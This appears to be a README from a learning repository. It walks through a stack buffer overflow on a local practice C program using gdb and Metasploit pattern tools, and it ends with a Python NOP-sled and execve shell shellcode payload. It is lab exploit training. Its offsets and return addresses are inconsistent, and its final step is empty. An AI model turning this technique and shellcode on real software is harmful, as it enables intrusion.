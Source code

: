 # Buffer overflow example 

Disable randomize_va_space on kernel:
```shell
sudo sysctl kernel.randomize_va_space=0
```

Compile example
```shell
#gcc -o reto reto.c -fno-stack-protector -z execstack -g -fPIE
gcc -g -fno-stack-protector -z execstack -mpreferred-stack-boundary=4 -o reto reto.c
```

Execute compiled software with gdb:
```shell
gdb ./reto
```

input 100 E characters with python to reto
```shell
run $(python -c 'print ("E" * 100)')
```

Run metasploit module:
```shell
/opt/metasploit/tools/exploit/pattern_create.rb -l 130
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac
3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2A
```

On debuger run pattern created with metasploit module:
```shell
gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2A
Starting program: /home/darthv/Downloads/scripts/scripts/reto Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2A
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2A

Program received signal SIGSEGV, Segmentation fault.
0x00005555555551d5 in main (argc=2, argv=0x7fffffffe6f8) at reto.c:18
18	}
(gdb) 
```

We've got a segmentation faul, buffer has been overfloaded. 

Let's check where buffer overflow has been, in other words, we want to know the teturn memmory addreess.
```shell
(gdb) x/xw $rsp #64 bits example, if we want 32 we'd use esp.
0x7fffffffe5e8:	0x41306541
(gdb) 
```

Let's get the exactly overflow point. We send a 130 string characters with. Remember var has only 100 chars defined: ``char buffer[100];``` Vars has bit more memory as has been defined, so now let's get the exactly overflow point (offset) in order to know exactly how many characters we need to overflow. Run patter_offest.rb with -q memmory address got from 130 chars:

```shell
/opt/metasploit/tools/exploit/pattern_offset.rb -q 41306541 -l 130
[*] Exact match at offset 120
```

This means that from all 130 chars we try before, when we get 120 chars is the exactly overfloint point, this is the direcction we need. To do that we need to dissamble or get the function premio, to know the function premio address: 

```shell
(gdb) disas premio
Dump of assembler code for function premio:
   0x0000555555555159 <+0>:	push   %rbp
   0x000055555555515a <+1>:	mov    %rsp,%rbp
   0x000055555555515d <+4>:	lea    0xea4(%rip),%rax        # 0x555555556008
   0x0000555555555164 <+11>:	mov    %rax,%rdi
   0x0000555555555167 <+14>:	call   0x555555555040 <puts@plt>
   0x000055555555516c <+19>:	nop
   0x000055555555516d <+20>:	pop    %rbp
   0x000055555555516e <+21>:	ret    
End of assembler dump.
(gdb) 
```

We've got the first address memory from premio function, the first one: 0x0000555555555159, exactly: 555555555159.
Now we're going to run the same python command we run before, but now with the exactly offset chars lenght (120) and with the address premio converted from: 555555555159. to \x59\x51\x55\x55\x55\x55. This convertion is for intel little endian, so we only need to put the memmory adreeces inverted addin x.

```shell
(python -c 'print ("A" * 120 + "\x59\x51\x55\x55\x55\x55")')

[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYQUUUU
ANGEL¡¡¡ has alterado el flujo del programa

Program received signal SIGSEGV, Segmentation fault.
```

# 2 GET SHELL CODE:
Check [shell](shell.py) code and get executable attributes.

```shell
(gdb) run $(./shell.py)
Starting program: /home/darthv/Downloads/scripts/scripts/reto $(./shell.py)
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
0x00005555555551d5 in main (argc=2, argv=0x7fffffffe6a8) at reto.c:18
18	}
(gdb) 

```

We'v got memory address argv=0x7fffffffe6a8. Now lets do break point just before strcpy, before print, this will get the addreess memory where we need to put the shell code:
```shell
(gdb) list
13	         return -1;
14	    }
15	    strcpy(buffer,argv[1]);
16	    printf ("%s\n",buffer);
17	    return 0; 
18	}
e9	
(gdb) break 15
Breakpoint 1 at 0x5555555551a9: file reto.c, line 15.
(gdb) 

```

We get memory address where we want to put shell code, we need to change [shell.py](shell.py) If we run shellp.py again with break point we've get check memory addres, after we need the stack return memmory address

```shell
(gdb) x/40x $rsp
0x7fffffffe510:	0xffffe6a8	0x00007fff	0x00008000	0x00000002
0x7fffffffe520:	0x00000000	0x00000000	0x00000006	0x0000009e
0x7fffffffe530:	0x0000000a	0x0000000c	0x00000000	0x00000000
0x7fffffffe540:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe550:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe560:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe570:	0x00000000	0x00000000	0xf7fe6b60	0x00007fff
0x7fffffffe580:	0x00000000	0x00000000	0xf7ffdab0	0x00007fff
0x7fffffffe590:	0x00000002	0x00000000	0xf7dca290	0x00007fff
0x7fffffffe5a0:	0xffffe690	0x00007fff	0x5555516f	0x00005555
(gdb) 
```

What is the return address we need to atack? used to be the 3rd (empty one)
0x 7f ff ff ff e5 30 -> \x30\xe5\xff\xff\xff\x7f

Now let's change [shell.py](shell.py) with rsp (return stack pointer) memory address and change to 120 characters:
```python
#!/usr/bin/python
nops = '\x90' * 64
shellCode = (
'\x48\x31\xff\x57\x57\x5e\x5a\x48\xbf\x2f\x2f\x62\x69' +
'\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05'
)
relleno = 'A' * (130 - 64 - 29)
regreso ='\x50\xe2\xff\xff\xff\x7f'
print (nops + shellCode + relleno + regreso)
```

Now clear break point and run shell.py:

```shell

```
